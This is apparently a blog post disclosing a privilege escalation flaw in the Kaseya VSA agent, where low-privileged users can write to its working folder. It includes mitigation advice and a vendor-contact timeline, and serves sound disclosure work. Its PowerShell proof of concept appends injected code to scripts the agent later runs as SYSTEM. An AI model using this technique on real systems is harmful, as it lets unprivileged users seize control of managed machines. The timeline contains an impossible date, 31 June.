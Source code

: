 ```yaml
---
layout: post
category: hold
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
<p>
So this is the first time I've written about a security issue.
I decided to write about this as the vendor was unresponsive and looking their previous CVEs it seems to be a
common place. The other reason is that if an organisation is using this product, most of their machines are at risk. 

So I give you Kaseya VSA.
</p>

<h3>Product</h3>
<h4>Windows 10. Agent version <= 9.5</h4>
<p>
Kaseya VSA provides a web application interface for managing and monitoring IT assets via its deployed agents.
Its a competitor for Microsoft system centre and has a small portion of the market when compared with other vendors.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.
</p>
  
<h3>Vulnerability</h3>
<p>
This is not really a new issue as such but more an extension of <a href="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
Where a fix was put in place for the original issue it was specific to binaries and not scripts.
The root cause for both issues is a low privileged group with excessive permissions to a folder used by a elevated process.
 
</p>

  <img src="/images/authenticated.png" />
  
<p>
The Kaseya agent runs as SYSTEM by default.
The agent also has a default working folder @ <code class="highlighter-rouge">c:\kworking</code>.
It will pull scripts and binaries to this folder and execute them from disk from the controlling web application.
By default the <code class="highlighter-rouge">Authenticated Users</code> group has all rights to this folder.

Scripts are written to disk however they are not checked for integrity prior to execution.
So a folder can be monitored for script files being dropped and then append malicious code prior to execution.
</p>

<h3>Impact</h3>
<p>
Given that the Kaseya virtual agent is an asset management tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. The vulnerability itself is reliant on code execution within the working folder and depends on scheduled tasks or ad-hoc script execution from the web interface, so the wait time can vary.

So this is case by case based on script usage via agents within the organisation.
</p>

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the default working directory.
When a ps1 script drops it will then append the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.
</p>

<h3>Mitigation</h3>
<p>
All scripts should be signed and verified prior to execution eliminating the ability to append arbitrary commands. Additionally Kaseya should remove the excessive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.
</p>

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requesting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
</ul>
